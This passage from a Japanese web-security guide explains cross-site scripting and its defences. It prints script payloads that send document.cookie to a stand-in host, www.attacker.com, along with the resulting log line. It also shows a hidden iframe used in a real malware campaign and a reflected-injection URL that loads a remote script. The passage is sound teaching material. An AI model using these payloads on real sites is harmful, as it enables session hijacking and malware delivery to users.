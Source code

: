##### Cookie窃盗

上の例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す方法（およびそれを用いてセッションをハイジャックする方法）を見ていきましょう。JavaScriptでは、`document.cookie`プロパティでドキュメントのcookieを読み書きできます。ブラウザのJavaScriptには同一オリジンポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。`document.cookie`プロパティには、オリジンWebサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと（XSSによって発生すると）、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入してみれば、そのページに含まれている自身のcookieが表示されることを確かめられます。

```html
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では`http://www.attacker.com/`というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません（訳注: 現在は売り物件のWebページがあるようです）。ただし攻撃者が自分たちのWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照する可能性もあります。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com サイト上のログファイルには以下のように出力されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

`httpOnly`フラグをcookieに追加することで、この攻撃を明示的に緩和できます。これにより、`document.cookie`をJavaScriptで読み出せなくなります。`httpOnly` cookieは、IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4、Chrome 1.0.154以降で利用できます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使うとcookieが表示可能になる](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える（汚損する）ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、以下のように`iframe`タグを悪用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、イタリアにあるWebサイトへの[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)による攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して悪質なソフトウェアをインストールしようとします。攻撃の成功率は50%を誇っています。

さらに特殊な攻撃としては、偽のWebサイト全体またはログインフォームを上に重ねて表示するという手口があります。これらは元のサイトと一見そっくりですが、入力されたユーザー名とパスワードを密かに攻撃者のサイトに送信します。あるいは、CSSやJavaScriptを駆使してWebアプリケーション上の本物のリンクを隠して別のリンクを表示し、ユーザーを偽のサイトにリダイレクトするという手法もあります。

反射型インジェクション（Reflected injection）攻撃は、後で標的ユーザーに表示するペイロードを実際には保存せず、代わりにURLに長大な文字列として仕込んでおく手法です。特に検索フォームで検索文字列のエスケープに失敗します。以下のリンク先には、「ジョージ・ブッシュが9歳の男の子を議長に任命」と書かれたページが表示されていました。

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### 対策

**悪意のある入力をフィルタすることがきわめて重要です。同様に、Webアプリケーションの出力をエスケープすることも重要です**。

特にXSSの場合、**禁止リスト方式ではなく許可リスト方式で入力をフィルタすることが絶対重要です**。許可リストフィルタでは特定の値のみが許可され、それ以外の値はすべて拒否されます。しかし禁止リストはどうやっても不完全になります。
